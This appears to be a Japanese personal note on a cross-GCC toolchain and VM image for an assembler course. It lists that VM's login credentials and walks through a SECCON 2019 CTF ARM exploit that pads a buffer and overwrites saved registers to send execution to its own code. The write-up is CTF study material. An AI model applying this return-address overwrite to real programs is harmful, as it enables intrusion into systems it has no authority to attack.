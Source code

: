 # cross-gcc

## 開発環境
熱血！／大熱血！ アセンブラ入門  
開発環境のＶＭイメージ
http://kozos.jp/vmimage/burning-asm.html

### ID/PASS
user/progtooluser
root/progtoolroot


### tool

/usr/local/cross-gcc494/bin 配下にobjdumpなどのツールが入っている
例えば arm-elf用の toolは `ls /usr/local/cross-gcc494/bin/arm-elf*` 

objdump なら
```
/usr/local/cross-gcc494/bin/arm-elf-objdump -d arm-elf.x | less
```




## ARMのexploit例
問題・解答例は以下に保管。 https://github.com/yyamada12/ctfs/tree/master/seccon2019final 

ctfs/seccon2019final/solve/read-password/arm-elf.S

```
.org  0x1c10 - 16 - 256 - 4 - 28
```
org: バイナリをここに配置してくださいという命令

```
_start:

.long 0x61626364
.long 0
.long 0
.long 0
```
16バイトはまず適当に埋める

```
.long 0 /* FP -> FP */
.long 0x1c00 /* IP -> SP */
.long _code /* LR -> PC */
.long 0 /* PC -> discard */
```
戻りアドレスを設定する (`_code`)


make arm-elf.bin すると arm-elf.binが生成される

<!--stackedit_data:
eyJoaXN0b3J5IjpbMzI0ODU1ODI0LC0xNjA3Mjc3NjYyLDYzMT
IxNTU4OSwtOTQ3NDI5M119
-->